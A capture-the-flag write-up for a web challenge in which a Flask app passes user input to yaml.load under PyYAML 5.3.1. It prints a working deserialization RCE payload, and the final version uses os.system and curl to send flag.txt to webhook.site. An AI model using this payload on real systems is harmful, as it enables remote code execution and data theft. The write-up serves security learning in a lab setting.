 ```yaml
---
ai_date: '2025-04-27 05:10:32'
ai_summary: Exploited YAML deserialization vulnerability (RCE) in PyYAML 5.3.1 for
  remote code execution, using a crafted payload.
ai_tags:
- yaml
- rce
- deserialization
created: 2021-12-21T23:50
updated: 2024-06-21T21:29
---
```


## Espace 0

The hardest challenge of the web category, but was actually solved before Login Part 0 since my brain was dead

> You've used espace2, but what about espace0?
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4210/

As before the source, `main.py` was given

```python
from flask import Flask, request, render_template, Response
import yaml

app = Flask(__name__)
assert yaml.__version__ == "5.3.1"

@app.route("/")
def index():
    return render_template("./index.html")
    
@app.route("/", methods=["POST"])
def welcome():
    student_data = request.form.get("student_data")
    if not student_data:
        return Response("Please specify some data in YAML format", mimetype='text/plain')
    student_data = yaml.load(student_data)
    required_fields = ["id","name","class"]
    if type(student_data) != dict or "student" not in student_data or any(x not in student_data["student"] for x in required_fields):
        return Response("Malformed data. Please try again.", mimetype='text/plain')
    student = student_data["student"]
    return f"<h1>Welcome, {student['name']} ({student['id']})</h1> <br>Your class is <b>{student['class']}</b>"
```

There are no obvious vulunerabilities to this file.

But the `assert yaml.__version__ == "5.3.1"` part is quite suspicious.

A quite google search with keywords `pyyaml 5.3.1 vulnerabilities` leads us to `https://security.snyk.io/vuln/SNYK-PYTHON-PYYAML-590151`, a 9.8 scored RCE.

Conviniently a `uiuctf` writeup was included that explained how the exploit worked. https://hackmd.io/@harrier/uiuctf20

Apparently it was a zero day vulunrability used in a CTF, what a chad move. We can simply take their payload and use it here as google is allowed in CTFs.

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ 'PAYLOAD_HERE' ]]]`

### Sending the payload

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '__import__("os").system("curl -X POST --data-binary @flag.txt https://webhook.site")' ]]]`

![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221164628024.png)

And after checking webhook.site for the recieved curl request

```flag
flag{yet_another_mal-coded_library}
```

Flag obtained